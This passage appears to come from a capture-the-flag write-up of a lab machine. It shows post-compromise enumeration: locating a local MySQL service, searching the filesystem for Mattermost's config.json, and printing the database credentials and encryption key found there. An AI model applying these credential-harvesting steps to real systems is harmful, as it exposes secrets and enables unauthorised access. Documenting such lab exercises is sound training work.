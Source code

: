 
* sql is running in local server 

      maildeliverer@Delivery:~$ ss -lntp | grep 3306
      LISTEN    0         80               127.0.0.1:3306             0.0.0.0:*

* and MatterMost server is using that database server -

  ![](screenshots/i-use-sql.png)

* and the second message comes here with a hint that the database server is contains some hashes that are crackable using hashcat.
* but firt i need to find database creds and if MatterMost is using database that the creds are in the MatterMost config file as the tool documentation says __"Mattermost configuration settings are maintained in the `config.json`"__

* find the config file

      maildeliverer@Delivery:~$ find / -name config.json -type f -print 2>/dev/null
      /opt/mattermost/config/config.json

* inside the config file i found db creds -

      "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
      },

  * __DB creds:__ `mmuser:Crack_The_MM_Admin_PW`

## mysql
